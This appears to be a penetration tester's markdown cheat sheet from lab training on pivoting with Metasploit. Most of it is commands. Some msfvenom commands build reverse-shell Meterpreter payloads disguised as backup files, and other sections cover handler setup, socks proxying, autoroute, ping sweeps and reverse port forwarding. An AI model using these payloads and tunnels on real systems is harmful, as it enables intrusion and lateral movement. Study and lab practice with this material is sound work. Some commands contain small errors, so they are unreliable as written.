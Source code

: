 Create payload for pivot
```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip addr of attackhost> -f elf -o backupjob LPORT=8080
```
Copy over this file by SSH and execute it to gain a Meterpreter session after starting the multi handler
# Starting the Handler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run
```

# Traffic Tunneling 

1. We got to start a socks proxy server (can skip this step and step 2 if there is already a meterpreter shell from above)
```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
```
hide that session (`bg`)and then 


2. add routes for the session
```
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

2. or if the meterpreter already exists (this scans that autoroute)
```
meterpreter > run autoroute -s 172.16.5.0/23
```
3. this lists the autoroutes
```
run auotroute -p
```
with socks we can run proxychains commands like above

# Ping Sweep 
Run this twice because it might not work on the first time. Need time to build up its arp cache 
```
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

alt: 
//linux 
for i in $(seq 1 254); do (ping -c 1 172.16.5.$i | grep "bytes from" &) ; done


//windows:
CMD: for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 1000 | find "Reply"

PS: 1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

if ping doesn't work because the firewall blocks ICMP, use NMAP

# Reverse Tunneling
reverse port forwarding when we are have meterpreter shell in attack host
```
run autoroute -s 172.16.6.3/16
run autoroute -p
```

```
portfwd add -l 7777 -p 5985 -r 172.16.6.3
```

after that we can just connect using xfreerdp using /v:127.0.0.1:777

the port after -l is the port to connect from our machine
and the port are -p is the port to connect to (like the service u wanna forward)
-r is the ip address of the server u wanna forward

```shell-session
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```


```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run
```

Payload for our windows hosts -> execute it on windows
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```
